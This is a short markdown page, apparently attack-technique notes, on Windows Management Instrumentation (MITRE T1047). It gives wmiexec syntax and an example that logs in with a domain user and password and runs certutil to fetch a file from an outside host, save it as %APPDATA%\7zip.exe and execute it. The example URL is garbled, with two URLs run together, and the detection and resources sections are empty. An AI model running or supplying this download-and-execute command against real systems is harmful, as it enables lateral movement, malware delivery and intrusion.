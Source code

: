 # [Windows Managment Instrumentation](https://attack.mitre.org/techniques/T1047/)

## Exploit Syntax

Syntax:
```powershell 
wmiexec -t <ip> -u <domain.user> -d <domain.name> -p <password> -c "cmd"
```

Example:
```powershell 
wmiexec -t 172.25.47.2 -u aubrey.sandoval -d vcfed-int -p f7m.}K+s-h -c "cmd /c certutil.exe -urlcache -split -f http://downgradesystems.info/quhttp://10.10.254.1:46692/file-transfer/aspect-remind-lawestions/61882772/verify %APPDATA%\7zip.exe && %APPDATA%\7zip.exe"
```

## Detection Method

## Resources